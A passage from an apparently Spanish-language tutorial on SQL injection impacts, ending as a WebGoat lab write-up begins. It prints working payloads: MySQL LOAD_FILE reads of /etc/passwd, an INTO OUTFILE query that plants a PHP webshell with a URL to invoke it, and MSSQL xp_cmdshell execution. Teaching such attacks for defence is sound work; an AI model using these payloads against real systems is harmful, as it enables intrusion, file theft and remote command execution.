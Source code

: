 ### **Edición de información**
Similar al riesgo anterior, dependendiendo las circunstancias de la explotación del **SQLi** un atacante también puede editar información a nivel de base de datos, afectando así la integridad de todos los procesos que hagan uso de esta información. Pensemos por un momento en un sistema de puntos en el que nuestro registro de puntos actuales esta almacenado en **BD**, además utilizamos los puntos como sistema de cambio para algún servicio interno; si como atacantes logramos la alteración a nivel de **BD** de nuestra cantidad de puntos, para el aplicativo va a ser transparente por que de forma intrínseca confia en la información que esta le retorna. 

### **Lectura de archivos de O.S**
Dependiendo de la base de datos y los privilegios que tengamos en nuestra consulta vulnerable, un atacante puede hacer uso de los recursos del sistema para leer información a nivel de **Sistema Operativo**. Las implicaciones de esto pueden ir desde la lectura de archivos de configuración, hasta la recolección del código fuente del aplicativo, lo que eventualmente proporciona más vectores de ataque hacia el aplicativo o quizás la identificación terceros servicios que puedan ser vulnerables. 

- Mysql:
```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE(0x2F6574632F706173737764);
```

### **Subir archivos maliciosos**
Unido al riesgo anterior, bajo las condiciones adecuadas del vector de ataque y los privilegios de la consulta vulnerable, es posible para un atacante escribir archivos a nivel de **Sistema Operativo**, lo que amplia el riesgo a posible sobreescritura de archivos criticos, o la subida de código malicioso como **webShell's**: 
- Mysql: 
```sql
SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'; 
```
Esto sube una webshell básica en php por medio de **Mysql**: 
``http://localhost/shell.php?c=cat%20/etc/passwd ``

### **Ejecución remota de comandos**
Dependiendo del sistema de bases de datos comprometido, es posible hacer uso de múltiples funcionalidades que permiten la ejecución de comando de sistema operativo por medio de consultas **SQL**: 

- MSSQL
    - Se debe habilitar el método [XP_CMDSHELL](https://www.tarlogic.com/en/blog/red-team-tales-0x01/)
```sql
EXEC master.dbo.xp_cmdshell 'cmd'; 
```

## Laboratorios
### SQL Injection Advanced - 3
El reto nos indica que existen 2 tablas en la base de datos ``user_data`` y ``user_system_data``, y nos provee de 2 funcionalidades, una de consulta de información y otra de validación de credenciales: 

![Formulario Vulnerable](/assets/webgoat/A1/1_sql_injection/01_dos_funcionalidades.png)
_Formulario Vulnerable_
